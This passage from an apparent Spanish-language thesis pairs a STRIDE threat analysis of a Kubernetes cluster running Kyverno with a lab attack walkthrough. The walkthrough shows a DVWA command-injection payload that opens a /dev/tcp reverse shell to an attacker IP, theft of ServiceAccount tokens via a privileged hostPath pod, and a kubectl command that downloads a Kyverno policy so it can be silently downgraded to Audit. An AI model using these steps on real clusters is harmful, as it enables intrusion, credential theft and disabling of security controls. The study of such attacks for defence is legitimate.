  
\includegraphics[width=0.95\textwidth,clip=true]{dfd_baseline_k8s.png}
  \caption{Diagrama de Flujo de Datos para STRIDE}
  \label{fig:dfd_baseline}
\end{figure}

\subsection{Spoofing (Suplantación de Identidad)}

\begin{itemize}
    \item Activos afectados: credenciales y tokens de Service Accounts de Kubernetes (por ejemplo, los tokens de ServiceAccount de DVWA y Kyverno), identidades de componentes internos (la identidad del propio Kyverno) y certificados de API server. 
    \item Escenario de ataque: un atacante que ya haya conseguido acceso interno al comprometer un Pod puede robar el token de su ServiceAccount montado por defecto. En el escenario descrito previamente, tras conseguir acceso al contenedor de DVWA, el atacante podría extraer el token de la SA de DVWA y utilizarlo para llamar a la API Kubernetes con esa identidad, la cual tiene permisos para crear pods. Más adelante, al escapar al nodo mediante un Pod privilegiado, el atacante podría acceder a los ficheros del host y obtener también el token del ServiceAccount de Kyverno, que tiene altos privilegios . De este modo, se suplanta la identidad de Kyverno ante la API (operando con sus credenciales). Estas acciones permiten al atacante actuar en el clúster como si fuera una entidad legítima (DVWA o Kyverno), eludiendo controles basados en identidad.
    \item Consecuencias: la suplantación de identidades internas compromete la autenticación y autorizaciones del clúster. Con el token de DVWA, el atacante podría ejecutar operaciones permitidas a esa cuenta (crear Pods maliciosos en el namespace) . Con el token de Kyverno (que típicamente tiene amplios permisos administrativos), el atacante obtiene efectivamente privilegios de cluster-admin, pudiendo listar, modificar o crear recursos críticos como políticas de admisión . En suma, la amenaza de spoofing permite al atacante elevar sus privilegios y realizar acciones en nombre de cuentas de confianza, rompiendo la seguridad basada en identidad. 
    \item Mitigaciones: aplicar el principio de mínimo privilegio en los ServiceAccounts y sus tokens. Cada aplicación debe usar cuentas con los permisos estrictamente necesarios; por ejemplo, DVWA no debería poder crear Pods en un entorno seguro. También se puede usar Kyverno para crear políticas de validación que no permitan crear Pods al montar su volumen como hostPath.
\end{itemize}

\subsection{Tampering (Manipulación de Datos)}

\begin{itemize}
    \item Activos afectados: las políticas de Kyverno (ClusterPolicies/Policies en formato YAML), que definen la configuración de seguridad del clúster, son un activo crítico susceptible de manipulación. Asimismo, los manifiestos de recursos (Deployments, Pods, imágenes de contenedor) pueden ser alterados por un atacante con altos privilegios. También tenemos el pod inicial de DVWA, que al ser vulnerable, puede ejecutar instrucciones del atacante.
    \item Escenario de ataque: un atacante que haya obtenido credenciales privilegiadas puede modificar las políticas de Kyverno existentes o cargar nuevas políticas maliciosas. Se podrían cambiar las políticas de validación de modo Enforce a Audit. O en el caso de políticas de mutación, podría modificar los recursos que se modifican para otorgarle privilegios elevados y aprovechar vulnerabilidades futuras para escapar al nodo.  Por otro lado, otro escenario es el de la explotación de la máquina DVWA, ya que accediendo a ella con algún exploit o vulnerabilidad, se podría tomar control total sobre la máquina.
    \item Consecuencias: la manipulación de políticas debilita o invierte los controles de seguridad, convirtiendo el plano de control en el aliado del atacante: el sistema aplicará configuraciones manipuladas en contra de su propia seguridad. Además, se pierde confianza en la integridad de las políticas, abriendo la puerta a backdoors, fuga de datos y sabotaje operativo sin necesidad de intervención directa continua del atacante. En el caso de la máquina DVWA, se puede obtener control sobre ella y acceder al API Server del clúster, pudiendo  modificar los recursos sobre los que tenga permisos el pod comprometido.
    \item Mitigaciones: proteger la integridad de la configuración y las políticas es primordial. Solo usuarios altamente confiables (admin) deberían tener permisos para modificar ClusterPolicies de Kyverno – implementar controles RBAC estrictos para ello. Se deben monitorizar y auditar los cambios en políticas: por ejemplo, usando Falco para detectar la creación o edición de una ClusterPolicy fuera de los procesos normales. Por otro lado, tambien se debe de tener los servicios actualizado y evitar vulnerabilidades críticas para poder reducir los vectores de entrada.
\end{itemize}

\subsection{Repudiation (Repudio)}

\begin{itemize}
    \item Activos afectados: logs y evidencias de auditoría de acciones en el clúster (registros de eventos de Kyverno, logs de Kubernetes API Server, métricas de seguridad). También los mensajes de error/alerta que informan de políticas violadas o fallos de admisión.
    \item Escenario de ataque: un atacante sofisticado buscará ocultar sus huellas o generar confusión sobre sus actividades. Modificando las políticas de Kyverno, muchas acciones ofensivas pasarán desapercibidas o parecerán fallos del sistema. Por ejemplo, al cambiar la política de validación de Enforce a Audit, ya no se bloquean las acciones prohibidas sino que solo se registran advertencias – y a nivel de usuario todo “funciona” sin alertas visibles. Esto dificulta notar que la política ha sido violada, posponiendo su detección.
    \item Consecuencias: la falta de registros claros y alertas dificulta la atribución y respuesta. Los administradores podrían tardar horas o días en notar que las políticas fueron alteradas (especialmente si el clúster “sigue funcionando” salvo detalles sutiles). En el peor caso, el atacante podría negar su autoría alegando que los problemas fueron fallos del sistema, especialmente si no hay evidencia concreta en logs de sus acciones.
    \item Mitigaciones: fortalecer la observabilidad y detección temprana de actividades anómalas. Es esencial habilitar el auditing del API Server de Kubernetes y de Kyverno, registrando quién, cuándo y qué modifica en las políticas y otros recursos sensibles. Estas auditorías deben enviarse a sistemas inmutables (servidor de logs externo) para evitar su manipulación a posteriori.
\end{itemize}

\subsection{Information Disclosure (Divulgación de Información)}

\begin{itemize}
    \item Activos afectados: información sensible dentro del clúster, incluyendo secretos y credenciales (tokens de autenticación, contraseñas de BBDD), archivos confidenciales del nodo y datos en tránsito en la red interna del clúster.
    \item Escenario de ataque: siguiendo el laboratorio indicado previamente, un atacante podría conseguir los tokens de los Service Account no solo de Kyverno, sino de otros Service Accounts y podría acceder a ellos con los permisos otorgados. En algunos casos, esto podría suponer acceder a bases de datos con información crítica.
    \item Consecuencias: la exposición de estos activos permite movimiento lateral y escalada. Por ejemplo, con las credenciales de base de datos el atacante podría extraer información de la misma (si el objetivo incluye robo de datos). Con el token de Kyverno o el admin.conf, obtiene acceso administrador al clúster completo (impacto catastrófico a la confidencialidad de todos los recursos). Estas filtraciones de información comprometen gravemente la confidencialidad y pueden preludiar daños mayores (como abuso de cuentas comprometidas, robo de propiedad intelectual o datos personales, etc.).
    \item Mitigaciones: en primer lugar, asegurar la configuración de las aplicaciones, no usando credenciales hardcodeadas ni en texto plano en variables de entorno de los Pods. En su lugar, utilizar objetos Secret con cifrado en reposo y montajes efímeros. Por otro lado, también se podrían aplicar políticas de Kyverno para impedir despliegues inseguros. Finalmente, hacer hardening del nodo: por ejemplo, proteger archivos como admin.conf (usando kubeconfig con certificados de cliente que expiren, o limitando su distribución), y rotar regularmente los secretos y tokens del clúster de modo que aunque se filtren, su ventana de uso sea corta.
\end{itemize}

\subsection{Denial of Service (Denegación de Servicio)}

\begin{itemize}
    \item Activos afectados: la disponibilidad de los servicios del clúster Kubernetes y sus aplicaciones. Esto incluye la capacidad de desplegar nuevos Pods/recursos, la estabilidad del API Server/Admission Controller, y los recursos computacionales del clúster (CPU, memoria, etc.).
    \item Escenario de ataque: se podría aplicar una política de Kyverno de tipo validación que actuase como un "kill switch" silencioso, bloqueando todas las solicitudes de creación de objetos en el clúster, generando una denegación de servicio inmediata y muy grande.
    \item Consecuencias: el impacto de un DoS exitoso es inmediato en la continuidad del servicio. Realizando el "kill-switch", ningún nuevo contenedor puede lanzarse mientras la política esté activa, por lo que los despliegues quedan “atascados” recibiendo errores genéricos. Esto podría paralizar la entrega de software durante horas; de hecho, si se ejecuta en un momento crítico (ej. antes de un despliegue programado), podría causar caídas de hasta un día completo. En el peor caso, un DoS combinado con persistencia puede dejar al clúster inutilizable mientras el atacante mantiene sus puertas traseras, complicando la recuperación. La confianza en el plano de control (admission controllers) también se ve minada, pues un administrador podría verse forzado a apagar Kyverno para restaurar el servicio, dejando al cluster sin esa capa de protección.
    \item Mitigaciones: para mitigar un DoS es esencial limitar las capacidades que puedan ser abusadas y detectar rápidamente condiciones anómalas. La clave es monitorizar cambios en políticas de admisión: una alerta debe dispararse si aparece una ClusterPolicy nueva o si una existente cambia para denegar por defecto.
\end{itemize}

\subsection{Elevation of Privilege (Elevación de Privilegios)}

\begin{itemize}
    \item Activos afectados:mecanismos de control de acceso del clúster (Roles, RoleBindings, ClusterRoles), nodos del clúster y sus recursos (kubelet, contenedor runtime), y en general cualquier componente al que un atacante pudiera obtener acceso de mayor privilegio del que inicialmente tendría.
    \item Escenario de ataque: el punto principal del laboratorio es el acceder al clúster explotando al Pod de DVWA. Una vez dentro, se podría obtener el token del Service Account, que tiene permisos de creación de Pods, y se crearía un nuevo Pod con privilegios (usuario root y privileged: true) y con un volumen hostPath que monta el filesystem raíz del nodo. Así, al ejecutar ese Pod (gracias a los permisos de la SA comprometida), se obtiene acceso de nivel nodo/host. Es decir, escalar desde usuario de contenedor sin privilegios a root en el nodo Kubernetes (control completo del sistema operativo del nodo). Este es un salto de privilegio crítico facilitado por la configuración insegura (Kubernetes no debería permitir hostPath+privileged a cuentas no privilegiadas).
    \item Consecuencias: la elevación de privilegios es la categoría de amenaza más crítica, pues el atacante puede actuar con el mismo poder que un administrador legítimo (o incluso más, al introducir puertas traseras). En este escenario, la consecuencia final sería un compromiso completo del clúster: el atacante puede desplegar cualquier carga, extraer cualquier dato y modificar cualquier configuración a su antojo. Por ejemplo, podría permitir Pods peligrosos (saltándose políticas de seguridad) e incluso delegar al propio clúster la recreación de sus cargas maliciosas (persistencia automática). La integridad y disponibilidad de todo el entorno quedan comprometidas: el atacante de privilegios altos puede sabotear o manipular registros (dificultando futuras investigaciones), deshabilitar mecanismos de seguridad (como Kyverno mismo) y en general tomar control de la infraestructura.
    \item Mitigaciones: limitar drásticamente los privilegios de las cuentas de servicio de aplicaciones sería clave para evitar este ataque. En un entorno seguro, DVWA no debería haber podido crear Pods ni otros recursos que faciliten escaladas. Esto se logra mediante una definición cuidadosa de Roles/RoleBindings (RBAC). Por ejemplo, un Role para DVWA que no incluya rol de creación de pods habría contenido al atacante dentro del Pod web inicial, sin forma de escapar.
\end{itemize}

\chapter{Descripción del ataque}\label{chap:descataque}

En este capítulo se describe un escenario práctico de ataque ofensivo en un clúster Kubernetes que tiene instalado el motor de políticas Kyverno. Se detalla cómo, partiendo de una intrusión inicial a través de una vulnerabilidad de tipo RCE (Remote Code Execution) en la aplicación web desplegada en el clúster y escapando del pod de DVWA, se pueden realizar acciones ofensivas aprovechando Kyverno de forma maliciosa. Se analizan las 3 categorías principales de políticas de Kyverno (validación, mutación, generación) mostrando para cada caso cómo se modifica una política legítima existente para invertir su comportamiento, y cómo se puede además crear una política que no existía previamente, con un sentido ofensivo. 

\section{Acceso inicial mediante vulnerabilidad RCE en DVWA}

Para obtener acceso inicial al clúster, se explota la vulnerabilidad de ejecución remota de comandos (RCE) en la aplicación DVWA desplegada en el clúster de Kubernetes.

En este escenario, DVWA está expuesta en el clúster como un servicio accesible desde la red externa de la máquina, en el puerto 30080. Usando la máquina con Kali Linux, se navega a la funcionalidad vulnerable de DVWA, en este caso, la sección de Command Injection. Aprovechando que DVWA en nivel de seguridad bajo no sanea adecuadamente la entrada del usuario, se puede inyectar un comando malicioso adicional en un parámetro que pasa directamente a bash. DVWA ofrece un formulario para hacer ping a una dirección IP, donde se ingresa una dirección seguida de un punto y coma (;) y una orden para abrir una shell inversa en la máquina del atacante. El payload en concreto usado es el siguiente:

\begin{mypython}[caption={Comando shell inversa.} \textwidth]
8.8.8.8; bash -c "exec 5<>/dev/tcp/192.168.1.43/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done"
\end{mypython}

En este payload, la dirección IP 8.8.8.8 es el input legítimo para la función ping, el separador punto y coma rompe la secuencia e indica a la shell que ejecute un nuevo comando; la parte restante abre un socket para establecer una shell inversa desde el contenedor de DVWA hacia la máquina atacante (IP 192.169.1.43) en el puerto 4444. Al enviar este input, DVWA concatena la cadena en una llamada a la shell del sistema y, debido a la vulnerabilidad, ejecuta tanto el ping como el comando posterior. De esta forma, se logra ejecutar código arbitrario en el contenedor de DVWA, obteniendo una sesión de shell remota. Al alterar el código/flujo de la aplicación de DVWA, y haber conseguido un RCE, ya se ha ejecutado uno de los riesgos identificados en el análisis de STRIDE, siendo en este caso Tampering (manipulación de datos).

Una vez que la shell inversa se establece, ya se ha conseguido acceso interactivo como el usuario www-data. En este punto nos encontramos ya dentro de un pod del clúster de Kubernetes. Inmediatamente, se debe verificar el entorno para confirmar que está en un contenedor Kubernetes. En este caso, ya conocemos que estamos realmente en un clúster de Kubernetes, pero un método para saber si realmente se trata de un entorno montado con K8s, es verificar la ruta por defecto donde se encuentra el token de autenticación del ServiceAccount: /var/run/secrets/kubernetes.io/serviceaccount/token. Este token le permitirá interactuar con la API de Kubernetes con los permisos asociados al ServiceAccount del pod comprometido, permitiendo seguir adelante con el ataque. En la figura \ref{fig:shellinversa} se puede verificar cómo se ha conectado desde la máquina DVWA a nuestra Kali correctamente, y se ha extraído el token del Service Account de DVWA. En este punto, se ha expuesto información confidencial (token del Service Account DVWA, en forma JWT) a un actor no autorizado; ésa es la esencia de Information Disclosure (divulgación de información).
\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{shell_inversa.png}
  \caption{Shell inversa y token ServiceAccount}
  \label{fig:shellinversa}
\end{figure}

El segundo paso sería comprobar qué permisos tenemos con el Service Account de DVWA. Esto es muy importante, ya que va a definir los pasos a seguir para continuar con el ataque. En este caso, se intenta leer los RoleBindings existentes en el namespace DVWA, pero no se tienen permisos para ello. Consecuentemente, se debería usar técnicas de fuerza bruta para poder ir probando todas las acciones que el atacante desea probar, viendo si se cuenta con permisos para realizarlas. En este caso, sabemos que se tienen permisos de creación de pods, por lo que se puede ir más directo. En la figura \ref{fig:creacion_escape_pod} se puede ver cómo se prueba a crear un pod con el comando \textit{apply}, recibiendo un mensaje que indica que esa acción no está permitida, y con el comando \textit{create}, el cuál permite crear el pod al tener permisos de creación de pods. En este momento se ha conseguido otro paso de STRIDE, ya que, al tener el token de la Service Account de DVWA, estamos suplantando la identidad real y se pueden crear Pods de forma indebida, realizando Spoofing (suplantación de identidad).

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{creacion_escape_pod.png}
  \caption{Intento apply y creación pod}
  \label{fig:creacion_escape_pod}
\end{figure}

Con este dato, se puede seguir con la explotación del clúster, con el objetivo de escapar del pod y tener acceso al nodo. Como se pueden crear pods, se va a explotar el uso de volúmenes para acceder al nodo. Los volúmenes de tipo hostPath permiten a un pod montar directamente un directorio del sistema de archivos del nodo físico (host) dentro del contenedor. Esta funcionalidad, si bien puede ser útil para ciertos casos de uso legítimos (como monitorización o acceso a discos locales), representa un riesgo crítico de seguridad si no se controla adecuadamente. No obstante, es importante destacar que esta configuración peligrosa no es una vulnerabilidad del propio motor de Kubernetes, sino más bien una consecuencia de una mala configuración de seguridad. 

Para poder aprovechar esta característica de los volúmenes, que proviene de una mala configuración en el clúster, se puede desplegar un pod malicioso que:

\begin{itemize}
    \item Se ejecuta con privilegios elevados (runAsUser: 0, privileged: true).
    \item Monte el directorio raíz del nodo (/) en un path arbitrario dentro del contenedor (por ejemplo, /host).
\end{itemize}
Al hacerlo, se obtiene acceso directo al sistema de archivos del nodo subyacente, lo cual viola el principio fundamental de aislamiento entre contenedores y nodos. Entre los riesgos que representa la explotación de esta mala configuración, se encuentran:

\begin{itemize}
    \item Leer y modificar ficheros sensibles del nodo, como los ficheros que contienen los tokens de los Service Accounts.
    \item Acceder a tokens de otros pods, incluyendo los de componentes críticos como Kyverno, entre otros.
    \item Instalar backdoors o herramientas de persistencia directamente en el host.
    \item Escapar completamente del entorno controlado de Kubernetes y tomar control total del nodo.
\end{itemize}

En este caso, y debido a la temática del propio TFG, se va a optar por la segunda opción, para poder aplicar un enfoque ofensivo a Kyverno, modificando las políticas ya existentes o creando nuevas.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{acceso_root_pod.png}
  \caption{Acceso pod root.}
  \label{fig:acceso_root_pod}
\end{figure}

El pod aplicado en la figura \ref{fig:creacion_escape_pod} es un pod de tipo root, con los ajustes indicados para montar el directorio de archivos del nodo en nuestro pod, como se puede ver en \nameref{lst:root-pod}. Con el pod creado, el siguiente paso es acceder a él y poder extraer el token del Service Account de Kyverno. Al ser root en el pod, según la figura \ref{fig:acceso_root_pod}, podemos listar todos los pods que hay en el sistema en la ruta /host/var/lib/kubelet/pods, como se puede ver en la figura \ref{fig:listado_pods_cluster}. En este punto se ha conseguido el apartado Elevation of Privileges (elevación de privilegios) del análisis de riesgos de STRIDE, ya que se ha ejecutado un Pod como root.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{listado_pods_cluster.png}
  \caption{Listado, por UUID, de todos los pods del clúster.}
  \label{fig:listado_pods_cluster}
\end{figure}

Para averiguar si un pod es de Kyverno, hay que entrar dentro de la carpeta containers, y ver si hay mención a Kyverno. Esto también serviría en el caso de no saber que Kyverno está instalado en el clúster. Esta sería una fase de reconocimiento del nodo, que permitiría definir las próximas acciones a tomar en un ataque.

En el caso del pod con UUID d23ea115-75cc-44e5-aaba-f5a62857383c, se comprueba que efectivamente tiene mención a Kyverno, por lo que el token del Service Account asociado a este pod es el de Kyverno. Este token no estaría solo presente en el pod mencionado, sino que estaría presente en todos los pods que haya creado Kyverno. Una vez obtenido el token, disponible en la ruta volumes/kubernetes.io~projected/kube-api-access-mptcb dentro del directorio del pod mencionado, visible en la figura \ref{fig:token_kyverno}, ya tendríamos acceso al namespace de Kyverno.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{token_kyverno.png}
  \caption{Token del Service Account de Kyverno.}
  \label{fig:token_kyverno}
\end{figure}

Con esto, se comprueba que efectivamente se tiene acceso a Kyverno listando las políticas que ya hay creadas en el sistema, como se puede ver en la figura \ref{fig:listado_politicas_kyverno}, por lo que se puede pasar a la ejecución del ataque aplicando las políticas de Kyverno de forma ofensiva.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{listado_politicas_kyverno.png}
  \caption{Listado de políticas de Kyverno.}
  \label{fig:listado_politicas_kyverno}
\end{figure}


\section{Ejecución}
En este apartado se va a mostrar, por cada tipo de política, una modificación de una política existente, para darle un enfoque ofensivo, y se creará una política que no estaba presente en el clúster, que pueda generar un impacto negativo en el sistema.

\subsection{Política de validación}
Las políticas de Kyverno de tipo validación definen reglas de validación que examinan los recursos solicitados a la API del clúster y rechazan aquellos que no cumplen ciertos criterios, emitiendo un mensaje de error. Esto permite, por ejemplo, impedir el despliegue de pods con configuraciones no seguras o no conformes a la normativa de la organización. En cuanto a como actúan las reglas de validación, hay dos tipos de respuesta:

\begin{itemize}
    \item \textit{Enforce}: bloquea la creación objeto solicitado en caso de no superar la política de validación, mostrando un mensaje de error.
    \item \textit{Audit}: deja un log informando de que un objeto se ha creado sin cumplir la política de validación, pero no bloquea su creación.
\end{itemize}

Desde un enfoque ofensivo, contar con ambas opciones es bastante relevante, ya que se podría modificar el tipo de política de validación de \textit{Enforce} a \textit{Audit}, sin llegar a generar ruido en el sistema. Un cambio de este estilo pasaría bastante desapercibido y podría tardar días en detectarse, ya que, a priori, el clúster funcionaría igual que siempre.

Una política de validación bastante común sería disallow-host-network, la cual impide la creación de pods que accedan directamente a la pila de red del nodo mediante la opción hostNetwork: true. Un atacante que compromete un pod y logra acceso a modificar políticas puede desactivar esta regla, desplegar un contenedor con acceso completo a la red del nodo, y desde ahí capturar tráfico, escanear servicios internos, o incluso comunicarse con el API server de Kubernetes como si estuviera en el propio host, ampliando su superficie de ataque de forma significativa.

En este caso, la política disallow-host-network ya está creada, revisable en \nameref{lst:disallow-host-network}, y podemos comprobar como en la figura \ref{fig:validacion_host_network} no deja crear el pod de Nginx al tener el campo \textit{hostNetwork} marcado a \textit{true}. El YAML utilizado de Nginx está disponible en \nameref{lst:nginx}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{validacion_host_network.png}
  \caption{Política de validación evita crear un pod con el campo \textit{hostNetwork} marcado a \textit{true}.}
  \label{fig:validacion_host_network}
\end{figure}

La modificación que se plantea sobre esta política pasaría por cambiar el modo de aplicarla, pasando del modo \textit{Enforce} al modo \textit{Audit}. Esto provocaría que la política:
\begin{itemize}
    \item Deje de bloquear la creación de pods que violan la política.
    \item Solo registre un evento o advertencia (que muchas veces nadie revisa).
    \item No rompa la funcionalidad del clúster, por lo que es menos probable que el cambio sea detectado rápidamente.
\end{itemize}

Para ello, es necesario descargarse la política en formato YAML en la máquina Kali, para editarla y aplicarla de nuevo, sobre escribiendo la política que había previamente. Una característica importante a la hora de aplicar estos cambios en las políticas de Kyverno es que, siempre que se aplique una política con el mismo nombre detallado en el YAML de una política ya aplicada, esta política será sobre escrita. Por lo tanto, es importante fijarse en los nombres de las políticas para evitar crear políticas nuevas y generar ruido en el sistema.

El comando utilizado para descargar la política de validación sería el siguiente:

\begin{mypython}[caption={Descargar política validación} \textwidth]
kubectl --token=\$TOKEN_KYVERNO \
  --server=https://192.168.1.44:8443 \
  --insecure-skip-tls-verify \
get clusterpolicy disallow-host-network -o yaml > mod-disallow-host-network.yaml
\end{mypython}

Una vez descargada siguiendo los pasos detallados previamente, habría que modificar la variable \textit{validationFailureAction} al valor \textit{Audit}, y volver a aplicar la política modificando la política existente previamente en el clúster, \nameref{lst:mod-disallow-host-network}. Se puede ver como se aplica la política modificada en la figura \ref{fig:validacion_root_modificado}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{validacion_hostNetwork_modificada.png}
  \caption{Aplicar modificación de la política de validación hostNetwork.}
  \label{fig:validacion_hostNetwork_modificada}
\end{figure}

Se prueba de nuevo a aplicar el pod Nginx, y esta vez se puede ejecutar correctamente manteniendo el campo \textit{hostNetwork} como \textit{true}, como se puede ver en la figura \ref{fig:creacion_pod_hostNetwork}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{creacion_pod_hostNetwork.png}
